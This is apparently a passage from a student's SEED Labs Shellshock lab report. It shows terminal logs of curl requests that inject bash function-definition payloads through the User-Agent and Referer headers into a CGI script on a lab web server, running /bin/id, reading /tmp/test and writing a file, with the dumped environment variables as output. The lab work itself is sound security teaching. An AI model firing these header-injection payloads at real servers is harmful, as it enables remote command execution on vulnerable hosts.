 ```
REMOTE_PORT=55794
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
QUERY_STRING=
REQUEST_URI=/cgi-bin/getenv.cgi
SCRIPT_NAME=/cgi-bin/getenv.cgi
[02/16/21]seed@VM:~/.../02_shellshock$ curl -A '() {echo "passwords";}; echo Content_type: text/plain; echo; /bin/id' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
[02/16/21]seed@VM:~/.../02_shellshock$ curl -e '() {echo "passwords";}; echo Content_type: text/plain; echo; /bin/id' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
```
The three were again the same.

3. repeated Task 3.3 and 3.4 since I need to do both of them to show all three options
```
[02/16/21]seed@VM:~/.../02_shellshock$ curl -e '() {echo "passwords";}; echo Content_type: text/plain; echo; /bin/cat /tmp/test' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
*** ENVIRONMENT VARIABLES***
HTTP_HOST=www.seedlab-shellshock.com
HTTP_USER_AGENT=curl/7.68.0
HTTP_ACCEPT=*/*
HTTP_REFERER=() {echo "passwords";}; echo Content_type: text/plain; echo; /bin/cat /tmp/test
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
SERVER_SIGNATURE=<address>Apache/2.4.41 (Ubuntu) Server at www.seedlab-shellshock.com Port 80</address>
SERVER_SOFTWARE=Apache/2.4.41 (Ubuntu)
SERVER_NAME=www.seedlab-shellshock.com
SERVER_ADDR=10.9.0.80
SERVER_PORT=80
REMOTE_ADDR=10.9.0.1
DOCUMENT_ROOT=/var/www/html
REQUEST_SCHEME=http
CONTEXT_PREFIX=/cgi-bin/
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
SERVER_ADMIN=webmaster@localhost
SCRIPT_FILENAME=/usr/lib/cgi-bin/getenv.cgi
REMOTE_PORT=55802
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
QUERY_STRING=
REQUEST_URI=/cgi-bin/getenv.cgi
SCRIPT_NAME=/cgi-bin/getenv.cgi
[02/16/21]seed@VM:~/.../02_shellshock$ curl -e '() {echo "passwords";}; echo Content_type: text/plain; echo "this is a test" > /tmp/test' http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi
*** ENVIRONMENT VARIABLES***
HTTP_HOST=www.seedlab-shellshock.com
HTTP_USER_AGENT=curl/7.68.0
HTTP_ACCEPT=*/*
HTTP_REFERER=() {echo "passwords";}; echo Content_type: text/plain; echo "this is a test" > /tmp/test
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
SERVER_SIGNATURE=<address>Apache/2.4.41 (Ubuntu) Server at www.seedlab-shellshock.com Port 80</address>
SERVER_SOFTWARE=Apache/2.4.41 (Ubuntu)
SERVER_NAME=www.seedlab-shellshock.com
SERVER_ADDR=10.9.0.80
SERVER_PORT=80
REMOTE_ADDR=10.9.0.1
DOCUMENT_ROOT=/var/www/html
REQUEST_SCHEME=http
CONTEXT_PREFIX=/cgi-bin/
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
```